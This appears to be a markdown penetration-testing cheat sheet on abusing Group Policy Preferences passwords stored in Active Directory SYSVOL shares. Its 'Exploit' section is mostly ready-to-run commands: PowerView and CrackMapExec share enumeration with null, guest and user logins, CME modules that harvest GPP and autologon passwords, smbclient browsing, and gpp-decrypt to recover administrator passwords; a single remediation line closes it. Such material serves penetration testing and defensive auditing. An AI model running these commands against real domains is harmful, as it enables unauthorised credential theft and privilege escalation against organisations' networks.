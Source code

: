 # SYSVOL Enumeration
---

## Vulnerability

Group Policies are XML files used by Active Directory for rights management. These files might contains the local built-in Administrator’s password, which is historically encrypted through Group Policy Preferences (GPP). However, even though GPP-stored passwords are encrypted with AES-256, the private key for the encryption has been posted on MSDN few years ago. Therefore, an attacker who has access to GPP-stored passwords could decrypt them and escalate his privileges.

See [AES-256 private key for passwords encryption in Group Policies](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2).

## Prerequisites

- Read access to SYSVOL share on domain controller.

## Exploit

First, you must look for shares that might contain Group Policies. You can first focus on `SYSVOL` folders that are mapped to `%SystemRoot%\SYSVOL\Sysvol\domain-name` on domain controllers by default.

```bash
# With PowerView
Find-DomainShare

# Manually with CME
cme smb $DC_IP -d $DOMAIN -u '' -p '' --shares
cme smb $DC_IP -d $DOMAIN -u 'Guest' -p '' --shares
cme smb $DC_IP -d $DOMAIN -u $USERNAME -p $PASSWORD --shares

# Connect to SYSVOL share
smbclient \\\\$DC_IP\\SYSVOL -U $DOMAIN/$USERNAME

# Automatically with CME
cme smb $DC_IP -d $DOMAIN -y $USERNAME -p $PASSWORD -M gpp_autologin
cme smb $DC_IP -d $DOMAIN -y $USERNAME -p $PASSWORD -M gpp_password
```

Once you identified relevant shares, try to find Group Policies (XML files). You must identify the `name` and `cpassword` properties in these files.

```bash
# From a domain joined computer
ls \\$DC_IP\sysvol\$DOMAIN\

# With smbclient
smbclient -L \\\\$DC_IP\\sysvol\\$DOMAIN -U $USERNAME
```

You can now decrypt the `cpassword` using `gpp-decrypt` on Kali.

```bash
gpp-decrypt "+....."
```

## Recommendations

- [ ]  Don’t store Group Policies into unsecure shares.